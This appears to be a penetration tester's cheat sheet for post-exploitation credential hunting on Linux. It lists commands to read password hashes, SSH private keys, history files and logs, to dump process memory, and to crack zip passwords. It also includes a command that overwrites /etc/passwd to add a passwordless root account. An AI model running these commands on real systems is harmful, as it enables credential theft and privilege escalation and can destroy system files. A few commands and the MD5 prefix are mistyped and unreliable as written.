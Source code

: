 # 4\_Private\_Keys\_Passwords\_Users

## User and Password One-Liners

### Files With "passw" String

```text
find / -type f -readable -size +0 2>/dev/null | grep -Hi passw 
grep -r -l -i -I passw /
```

### Plaintext Usernames or Passwords?

```text
grep -i user [filename] 
grep -i pass [filename] 
grep -C 5 "password" [filename] 
grep -rnw '[directory path to search]' -e '[pattern like password]'
```

* For Joomla
  * Common place for creds is in the confiration.php file usually located at the root of the joomla web server directory or in the installation folder. This file includes database, server, and session settings where credentials could be found.

    ```text
    find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"
    ```
* For Wordpress \(Vulnhub:Zico2\)
  * Common place is the wp-config.php file found at the root directory.

### Files Generally With Plaintext / Easily-Reversible Passwords

```text
less /var/apache2/* 
cat /root/anaconda-ks.cfg 
strings /var/lib/mysql/mysql/user.MYD 
cat /root/anaconda-ks.cfg
```

### Users With No Password Set

```text
cut -f1-2 -d':' /etc/passwd | grep -v ':x$'
```

### Super Users

```text
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}' 
awk -F: '($3 == "0") {print}' /etc/passwd
```

## User and Password Hashes

### Background

* /etc/passwd contains users of the machine. If we filter for just the users that have /bin/bash or /bin/sh as their default program upon login, then we can get a list of interactive machine users.

  ```text
  Cat /etc/passwd | grep /bin/bash 
  Cat /etc/passwd | grep /bin/sh 
  grep -vE "nologin" /etc/passwd
  ```

* /etc/shadow has the password hashes and is only readable by root unless it's misconfigured to allow other users to read it.

  **Hash Syntax**

  * First 3 chatcyers identify the algorithm used.  

    ```text
    1$          MD5 
    $2a$        Blowfish 
    $2y$        Blowfish 
    $5$          SHA-256 
    $6$          SHA-512
    ```

  * The next characters are the salt which preceded the next $. 
  * The string after the middle $ is the password hash value.

### Attack Vector

1. Try easy passwords for trying to su to other interactive users.  
2. Display the permissions of the shadow file to see if we or a non-root user can display the hash contents.  Then crack the hash. 
3. Display the permissions of the /etc/ passwd file. If it is writable by the current user then you can overwrite the file to add a new root user without a password required.  

   ```text
   echo root::0:0:root:/root:/bin/bash > /etc/passwd
   ```

   * Usually there's an X after the username to signify a password is required. When it is omitted \(like this example\), you can su to root without a password.

### Passwords in Memory of Running Applications

#### Background

* Credentials can be stored in cleartext in memory of already running applications.
* Access to memory space of running applications is possible when it is within the same user context.

#### Attack Vector

* Write running process memory space to a file.  Then search for credential data. 
* GDB 

  ```text
  #gdb -p <pid>  
  info proc mappings 
  Dump memory <outfile> <start memory region > <stop memory region>
  ```

* GCore 

  ```text
  gcore -o <outfile> <pid>
  ```

### History and Logs

#### Background

* Sometimes credentials can be saved in the history or log files of programs or the OS.

#### Attack Vector

* Bash History
  * Provides history functionality that stores previous bash commands. 
  * Automatically created in user home directory. 

    ```text
    cat  ~/.bash_history
    ```
* Logs
  * Check for file permissions being set incorrectly for logs that we can read.  
  * Common location for logs is

    ```text
    /var/log/
    ```

  * Common direct paths 

    ```text
    cat /etc/httpd/logs/access_log 
    cat /etc/httpd/logs/access.log 
    cat /etc/httpd/logs/error_log 
    cat /etc/httpd/logs/error.log 
    cat /var/log/apache2/access_log 
    cat /var/log/apache2/access.log 
    cat /var/log/apache2/error_log 
    cat /var/log/apache2/error.log 
    cat /var/log/apache/access_log 
    cat /var/log/apache/access.log 
    cat /var/log/auth.log 
    cat /var/log/chttp.log 
    cat /var/log/cups/error_log 
    cat /var/log/dpkg.log 
    cat /var/log/faillog 
    cat /var/log/httpd/access_log 
    cat /var/log/httpd/access.log 
    cat /var/log/httpd/error_log 
    cat /var/log/httpd/error.log 
    cat /var/log/lastlog 
    cat /var/log/lighttpd/access.log 
    cat /var/log/lighttpd/error.log 
    cat /var/log/lighttpd/lighttpd.access.log 
    cat /var/log/lighttpd/lighttpd.error.log 
    cat /var/log/messages 
    cat /var/log/secure 
    cat /var/log/syslog 
    cat /var/log/wtmp 
    cat /var/log/xferlog 
    cat /var/log/yum.log 
    cat /var/run/utmp 
    cat /var/webmin/miniserv.log 
    cat /var/www/logs/access_log 
    cat /var/www/logs/access.log 
    ls -alh /var/lib/dhcp3/ 
    ls -alh /var/log/postgresql/ 
    ls -alh /var/log/proftpd/ 
    ls -alh /var/log/samba/
    ```

  * Other applications if they're installed 

    ```text
    cat ~/.nano_history 
    cat ~/.atftp_history 
    cat ~/.mysql_history 
    cat ~/.php_history
    ```

### Passwords in Configuration Files

```text
cat /var/apache2/config.inc 
cat /var/lib/mysql/mysql/user.MYD 
cat /root/anaconda-ks.cfg 
Grep RiIn passw / 2>/Dev/null
```

* List web server config files  

  ```text
  ls -alR /var/www/ 
  ls -alR /srv/www/htdocs/  
  ls -alR /usr/local/www/apache22/data/ 
  ls -alR /opt/lampp/htdocs/
  ```

### .History Files For Credentials to Re-Use

```text
cat ~/.bash_history 
cat ~/.nano_history 
cat ~/.atftp_history 
cat ~/.mysql_history 
cat ~/.php_history
```

## Private Key Information

```text
cat ~/.ssh/authorized_keys 
cat ~/.ssh/identity.pub 
cat ~/.ssh/identity 
cat ~/.ssh/id_rsa.pub 
cat ~/.ssh/id_rsa 
cat ~/.ssh/id_dsa.pub 
cat ~/.ssh/id_dsa 
cat /etc/ssh/ssh_config 
cat /etc/ssh/sshd_config 
cat /etc/ssh/ssh_host_dsa_key.pub 
cat /etc/ssh/ssh_host_dsa_key 
cat /etc/ssh/ssh_host_rsa_key.pub 
cat /etc/ssh/ssh_host_rsa_key 
cat /etc/ssh/ssh_host_key.pub 
cat /etc/ssh/ssh_host_key
```

## Password-Protected Zip Files \(ippsec=Node\)

* Sometimes you find zip files that are password protected.  You can brute force this password with fcrackzip.

  ```text
  fcrackzip -D -p [password file] [zip file needing the PW cracked]
  ```

